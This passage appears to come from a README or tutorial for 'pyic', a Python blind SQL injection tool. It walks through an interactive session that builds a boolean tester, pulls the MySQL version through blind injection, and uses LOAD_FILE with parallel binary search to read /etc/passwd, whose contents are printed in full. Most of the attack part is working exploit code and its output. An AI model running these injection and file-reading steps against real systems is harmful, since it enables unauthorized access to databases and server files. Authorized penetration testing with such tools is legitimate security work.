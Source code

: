 What have we do? we have quickly tested that the response is different when assertion is true or false.
During an audit, we can also quickly send the code that generate the rb to our team.

### 3 Exploit 

Ok, now what can we do with this injection? Lets exploit this vuln.

```
payload : >>> exit

>>> tester = BlindTester(rb, lambda r: 'admin' in r.text)
>>> sf = BlindStringFinder(tester)
>>> print(sf.read_string("(SELECT version())"))
[===================>] 100%
5.7.11-log
>>> 
```

We have created : 
* A tester, that use our request builder and get a criteria that say if the assertion is true or false. Here it is a lambda, but it can be every callable (a fundtion ou a callable object).
* A BlindStringFinder, that use our tester to get the value of a string by blind injection. It use a binary search algorithm to make the process more speed.

And now, we can give every string to our BlindStringFinder and quickly get values from the database.

### 4 read file

Now, we want see is file can be reads. to make this, we can read the string LOAD_FILE('/etc/passwd').

But there is a problem : what if when our vulnerable app give us an item, they wait 3s?
Ok, now lets imagine the time to read a simple file chars by chars. My /etc/passwd has ~3000 chars, the time will become about 3000 * (log2(255)/2) * 3.
Its very long, and you will wait a very long time to get your file.

But with pyic, we can optimise the process :
* first pyic evaluate the file size (with binary search algorithm)
* next, he run all the searchs with massive parallelism, so the time is drastically reduced

And now, in less than a minute we can read our file : 

```
>>> print(sf.read_file('/etc/passwd'))
[===================>] 100%
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
```